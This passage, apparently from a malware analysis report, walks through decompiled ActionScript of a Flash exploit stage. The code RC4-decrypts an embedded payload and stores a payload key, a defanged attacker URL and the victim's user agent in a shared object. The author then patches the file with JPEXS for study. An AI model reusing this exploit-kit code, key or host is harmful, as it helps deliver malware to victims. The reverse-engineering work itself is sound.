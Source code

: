 ```actionscript
```

We can check in Stage 2 source code that it initialises this shared object before executing 
this exploit.

```actionscript
private final function init(param1:Event = null) : void
{
   ...
   //§nw22_swf_rc4$341acf8a38c7ef2cbe35c674750c202b-394312611§;
   var _loc2_:ByteArray = new m_myClass06() as ByteArray;
   _loc2_ = Crypt.rc4(_loc2_, this.m_myStr08);
   // Create a shared object
   var _loc3_:SharedObject = SharedObject.getLocal("nw22");
   if(!_loc6_)
   {
      ...
         _loc3_.data["nw22"] = {
            // 'key': {'payload': 'njikqzcmxs'},
            "key":this.config_json.key.payload,
            // 'link': { 'pnw22': 'hxxp://zodlp[.]aebeike[.]xyz/breast/ZW92eHZ6cGg',
            "url":this.config_json.link.pnw22,
            // HTTP user agent
            "uas":this.targets_info.userAgent
         };
```

We modify the nw22 Flash file with JPEXS so parameters are hardcoded in the file instead of
being passed as a shared object. We see that `var _loc4_:String = String(_loc3_.data.nw22.key);`
is equivalent to the selected assembly in figure \ref{nw22_modification}.

![nw22 assembly\label{nw22_modification}](images/nw22_modification.png)
